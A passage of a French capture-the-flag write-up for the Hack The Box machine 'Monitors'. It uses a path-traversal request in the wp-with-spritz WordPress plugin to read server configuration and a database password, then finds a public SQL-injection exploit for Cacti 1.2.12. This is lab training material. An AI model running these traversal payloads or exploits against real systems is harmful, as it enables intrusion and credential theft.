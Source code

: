 On trouve alors un nouveau domain à ajouter:
```
┌──(root㉿kali)-[/home/kali]
└─# echo "10.10.10.238 cacti-admin.monitors.htb" >> /etc/hosts
```

La configuration de monitors.htb nous montre que la racine des fichiers du site est ``/var/www/wordpress``:
```
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//etc/apache2/sites-enabled/monitors.htb.conf 
[...]
        ServerAdmin admin@monitors.htb
        ServerName monitors.htb
        ServerAlias monitors.htb
        DocumentRoot /var/www/wordpress
[...]
```
Puis le fichier de configuration de Wordpress ``wp-config.php``, nous donne le mot de passe de la database:
```
┌──(kali㉿kali)-[~]
└─$ curl http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../var/www/wordpress/wp-config.php

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```
## Cacti
Allons maintenant sur le nouveau site qu'on a trouvé:
![cacti](/images/monitors/cacti.png)

Ce site utilise donc ``cacti 1.2.12``. Cherchons si des exploits sont connus pour cette version:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit cacti 1.2.12
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  Path
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Cacti 1.2.12 - 'filter' SQL Injection                                                                             | php/webapps/49810.py
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
Papers: No Results

┌──(kali㉿kali)-[~]
└─$ locate php/webapps/49810.py        
/usr/share/exploitdb/exploits/php/webapps/49810.py

└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49810.py
usage: 49810.py [-h] -t <target/host URL> -u <user> -p <password> --lhost <lhost> --lport <lport>
49810.py: error: the following arguments are required: -t, -u, -p, --lhost, --lport
```
